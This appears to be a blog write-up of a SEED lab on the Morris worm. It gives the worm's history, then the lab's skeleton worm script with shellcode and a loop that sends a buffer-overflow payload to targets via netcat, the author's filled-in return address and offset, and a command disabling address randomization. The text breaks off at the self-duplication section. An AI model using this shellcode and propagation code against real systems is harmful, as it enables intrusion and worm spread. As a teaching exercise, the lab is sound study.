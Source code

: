 ```yaml
---
layout: post
title: Worm Attack: Morris Worm
excerpt:
categories: [bof, worm, malware]
---
```


A computer worm is a type of malware, that is designed to self-replicate across computer networks without needing any human interaction. It is can propagate rapidly, causing widespread damage. One of such case is that of the morris worm.

The worm was created in 1988 by Robert Tappan Morris. He claimed that the worm was not intended to cause harm, but rather to gauge the size of the internet. The worm ended up causing widespread damage and disruption as it quickly got out of control due to its ability to replicate and spread rapidly. The worm started to congest network traffic as it continued to replicate, leading to system crashes and slowdowns.

While the morris worm is old, the techniques used by most worms today are still the same and involve two main parts: attack and self-duplication.

In this post, I aim to document my findings and observations while performing a SEED lab.

<details>
<summary>Lab Notes</summary>

Address randomization is disabled.
```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0
```
</details>

<br>

### Attacking the First Target

This task focuses on the attacking part of the morris worm. Paet of the vulnerabilities exploited by the morris worm was a buffer-overflow vulnerability. The lab includes vulnerable servers that have a buffer-overflow vulnerability. The goal of this task is to exploit this vulnerability, so we can run our malicious code on the server.

The author of the lab has provided a skeleton code that will be edited and used to carry out the attack.

<details>
<summary>Morris Worm Attack Lab Skeleton Code</summary>

```python
#!/bin/env python3
import sys
import os
import time
import subprocess
from random import randint

# You can use this shellcode to run any command you want
shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   # You can put your commands in the following three lines. 
   # Separating the commands using semicolons.
   # Make sure you don't change the length of each line. 
   # The * in the 3rd line will be replaced by a binary zero.
   " echo '(^_^) Shellcode is running (^_^)';                   "
   "                                                            "
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
   # The last line (above) serves as a ruler, it is not used
).encode('latin-1')


# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   ret    = 0  # Need to change
   offset = 0  # Need to change

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)


# Find the next victim (return an IP address).
# Check to make sure that the target is alive. 
def getNextTarget():
   return '10.151.0.71'


############################################################### 

print("The worm has arrived on this host ^_^", flush=True)

# This is for visualization. It sends an ICMP echo message to 
# a non-existing machine every 2 seconds.
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)

# Create the badfile 
createBadfile()

# Launch the attack on other servers
while True:
    targetIP = getNextTarget()

    # Send the malicious payload to the target host
    print(f"**********************************", flush=True)
    print(f">>>>> Attacking {targetIP} <<<<<", flush=True)
    print(f"**********************************", flush=True)
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], shell=True)

    # Give the shellcode some time to run on the target host
    time.sleep(1)


    # Sleep for 10 seconds before attacking another host
    time.sleep(10) 

    # Remove this line if you want to continue attacking others
    exit(0)
```
</details>


#### Creating the badfile

The attack involves overflowing a buffer in a function in the vulnerable program. To successfully execute a buffer-overflow attack, parameters like the stack frame pointer address, the buffer address of the vulnerable function need to be known. This can be obtained by debugging the program. However, because this lab is not necessarily about buffer-overflow, but observing a worm in acion, the author has designed the lab in such a way that these values are made available to the student when running the program runs normally.

```bash
echo hello | nc -w2 10.153.0.72 9090
```

**image**

We will use the information gotten from output of the program to edit the skeleton code such that a buffer-overflow attack happens

```python
# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   ret    = 0xffffd5f8 + 12
   offset = 112 + 4

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)
```

<details>
<summary>Brief Code Explanation</summary>

The return address is after the frame pointer. This means that the return address is ebp+4 (for 32-bit). To find the offset, we have to find the distance of the return address from the start of the buffer. This is calculated as `ebp-buffer+4`

We have chosen the address to store in our return address as ebp+12 because we need the return address value to be an address of one of the NOPs.
</details>

To test the attack, we simply run the attack program. If the attack is successful, a smiley face will be printed out on the target machine. As seen from the screenshot below, the attack is successful.

**image**


<br>

### Self Duplication






